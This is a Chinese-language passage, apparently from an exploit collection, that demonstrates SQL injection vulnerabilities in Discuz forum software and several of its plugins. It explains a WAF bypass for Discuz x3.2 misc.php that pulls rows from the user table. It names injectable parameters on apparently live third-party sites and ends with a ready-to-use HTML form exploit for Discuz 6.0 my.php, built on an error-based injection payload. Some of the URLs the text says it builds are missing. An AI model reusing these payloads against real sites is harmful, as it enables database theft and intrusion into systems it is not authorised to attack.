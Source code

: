 ![](https://github.com/cckuailong/PocCollect/blob/master/Web/Discuz/image/1.png)

接下来就是使用sqlmap进行暴库了。
参考链接：http://www.5kik.com/php0day/239.html
#### 演示2：Discuz x3.2前台GET型SQL注入漏洞（绕过全局WAF）
找到注入点：http://localhost/bbs/misc.php?mod=stat&op=trend&xml=1&merge=1&types[1]=x

也就是说我们可以控制的部分有很多。 且不看全局防注入源码，黑盒试一下我发现一旦出现'、(就会拦截，而且注释符（#、--）也会拦截。 括号不能有，就特别拙计，因为很多盲注需要括号，子查询也需要括号，函数也需要括号，这里都不能用了。

我们再看上述sql语句，发现我们可控的部分前面，还有个daytime。这就愁坏我了，因为我要查询的表是用户表，而用户表根本没这个字段。

执行会提示Unknown column 'daytime' in 'field list'。 所以，我们可以利用mysql的特性，一次查询两个表，将pre_ucenter_members的数据连带着查询出来：

大家可以看到，已经不报错了。因为pre_common_statuser表中存在`daytime`这个列。而且这个表中也有uid这个列，正好可以作为pre_ucenter_members的筛选项。 那么，有的同学再问，sql语句后半部分
没有注释符怎么处理？ 这里有个巧合，在某些情况下，`能作为注释符用。因为mysql会自动给sql语句结尾没有闭合的`闭合掉，这样，只要让mysql人为后面那一大串字符是一个字段的“别名”即可。 所以，先构造一个url：


可以看到已经出数据了。但发现出来的数据只有4位。 原因是，在源码中使用了substr取了daytime的第4到8位。修改POC

参考链接：https://www.secpulse.com/archives/26869.html
#### 演示3：discuz ychat插件注入漏洞
http://www.51jqa.com/plugin.php?id=ychat&mod=rooms&cid=6x
cid参数存在SQL注入
参考链接：https://bugs.shuimugan.com/bug/view?bug_no=108978
#### 演示4：Discuz Plugin JiangHu 1.1 /forummission.php SQL注入漏洞
forummission.php？index=show$id=24中的id参数存在sql注入漏洞

参考链接：http://www.gltc.cn/30161.html
#### 演示5：Discuz 6.0 /my.php SQL注入漏洞
把以下EXP保存成HTML文档
<form method='post' action='http://dz6.0/my.php?item=buddylist'> <input type='hidden' value="1111" name="descriptionnew[1' and(select 1 from(select count(*),concat((select (select (select concat(0x7e,user(),0x7e,0x5430304C5320474F21,0x7e)  limit 0,1)) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a) and 1=1#]" /><br /> <input type='submit' value='buddysubmit' name='buddysubmit' /><br /> </form>
